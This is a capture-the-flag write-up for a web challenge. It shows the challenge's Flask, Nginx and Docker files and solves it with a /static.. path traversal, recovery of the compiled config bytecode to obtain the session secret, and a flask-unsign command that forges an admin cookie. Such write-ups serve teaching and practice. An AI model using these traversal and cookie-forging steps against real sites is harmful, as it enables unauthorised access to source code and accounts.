



## Random Gallery  



We are given a simple webpage that serves random images from `/static`. There is a `/flag` endpoint which we can access if we logged in as `admin`.  

```python
from flask import Flask, request, redirect, session
from config import SECRET_KEY, FLAG, ADMIN_PASSWORD
import os
import random

app = Flask(__name__)
app.secret_key = SECRET_KEY

users = {
    "admin": ADMIN_PASSWORD
}

os.remove("config.py")

@app.route('/')
def index():
    if "username" not in session:
        return redirect('/login')
    return f""

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return '''
            <form method="post">
                Username: <input type="text" name="username"><br>
                Password: <input type="password" name="password"><br>
                <input type="submit" value="Login">
            </form>
            <a href="/register">Register</a>
        '''
    
    username = request.form.get('username')
    password = request.form.get('password')
    if users.get(username) == password:
        session["username"] = username
        return redirect('/')
    else:
        return "<script>alert('Invalid credentials');history.go(-1);</script>"

@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'GET':
        return '''
            <form method="post">
                Username: <input type="text" name="username"><br>
                Password: <input type="password" name="password"><br>
                <input type="submit" value="Register">
            </form>
        '''
    
    username = request.form.get('username')
    password = request.form.get('password')
    if username in users:
        return "<script>alert('Username already exists');history.go(-1);</script>"
    users[username] = password
    return redirect('/login')
    
@app.route('/flag', methods=['GET'])
def flag():
    if session.get("username") != "admin":
        return redirect('/')
    return FLAG
```

`config.py` contains the secret key used to sign the session cookies, but it's been redacted in the dist.  

```python
import os

SECRET_KEY = # REDACTED #
ADMIN_PASSWORD = os.urandom(16).hex()
FLAG  = os.getenv("FLAG", "DH{FAKE_FLAG}")
```

The backend also implements Nginx configuration. There is an alias misconfiguration, as `location` directive matches `/static` without a trailing slash, so Nginx performs prefix matching without path normalisation.  

```nginx
server {
    listen 80 default_server;
    server_name _;

    location /static {
        alias /app/static/;
    }

    location / {
        proxy_pass http://127.0.0.1:3000;
    }
}
```

This means we can use path traversal to read files in the parent directory of `/static`, where the application source code resides.  

```
/static../app.py
```

If we recall from earlier, the app actually runs `os.remove("config.py")`, so we can't just directly fetch `config.py`.  

However, since `config.py` is imported into the main application, this means that Python has probably already compiled the bytecode and stored it in `__pycache__`.  

The Dockerfile also specifies that the application uses Python 3.11.  

```dockerfile
FROM python:3.11-slim

ENV PORT=80
ENV FLAG=DH{FAKE_FLAG}
```

Since we know the exact Python version used, we can derive the full path of the `config.py` bytecode file.  

```
/static../__pycache__/config.cpython-311.pyc
```

Downloading the file will reveal the secret key inside.  



Now that we have the secret key, we can sign our own malicious cookie with admin credentials.  

```bash
flask-unsign --sign --cookie "{'username':'admin'}" --secret "super_secret_key_12345678"
```

Changing the `session` cookie in the webpage and accessing `/flag` will then give us the flag.  



Flag: `DH{59a749e779a082d8da08f44d360877e2}`